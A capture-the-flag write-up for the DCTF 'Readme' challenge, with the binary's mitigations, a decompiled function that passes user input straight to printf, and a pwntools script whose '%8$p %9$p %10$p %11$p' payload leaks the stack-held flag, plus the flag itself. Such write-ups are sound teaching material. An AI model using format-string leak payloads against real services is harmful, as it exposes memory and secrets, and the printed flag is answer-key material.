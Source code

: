 # Readme

Read me to get the flag.
nc dctf-chall-readme.westeurope.azurecontainer.io 7481

## Challenge

A format string vulnerability to leak a stack variable.

### Mitigations

```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Vulnerable Function

```c
void sym.vuln(void)
{
    undefined8 uVar1;
    int64_t in_FS_OFFSET;
    undefined8 stream;
    char *s;
    char *format;
    int64_t canary;

    canary = *(int64_t *)(in_FS_OFFSET + 0x28);
    uVar1 = sym.imp.fopen(0x9b6, 0x9b4);
    sym.imp.fgets(&s, 0x1c, uVar1);
    sym.imp.fclose(uVar1);
    sym.imp.puts(0x9bf);
    sym.imp.fgets(&format, 0x1e, _reloc.stdin);
    sym.imp.printf(0x9d8);
    sym.imp.printf(&format);
    if (canary != *(int64_t *)(in_FS_OFFSET + 0x28)) {
        sym.imp.__stack_chk_fail();
    }
    return;
}
```

## Solution

The flag is read onto the stack.
Using the format string vulnerability and the `%p` format specifier, we can leak memory from the stack as hexadecimal numbers.
The flag will be included in this leak and can be converted to ASCII.

## Exploit

```py
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host dctf-chall-readme.westeurope.azurecontainer.io --port 7481 readme
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('readme')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'dctf-chall-readme.westeurope.azurecontainer.io'
port = int(args.PORT or 7481)

def local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start()

payload = "%8$p %9$p %10$p %11$p"

io.sendline(payload)
io.recvuntil("hello ")
leak = io.recvuntil("\n", drop=True).split()

hexflag = []

for qword in leak:
    qlist = [qword[i:i+2] for i in range(2, len(qword), 2)][::-1]
    hexflag.extend(qlist)

flag = ""

for i in hexflag:
    char = chr(int(i, 16))
    flag += char

print(flag)

io.interactive()
```

## Flag

`dctf{n0w_g0_r3ad_s0me_b00k5}`

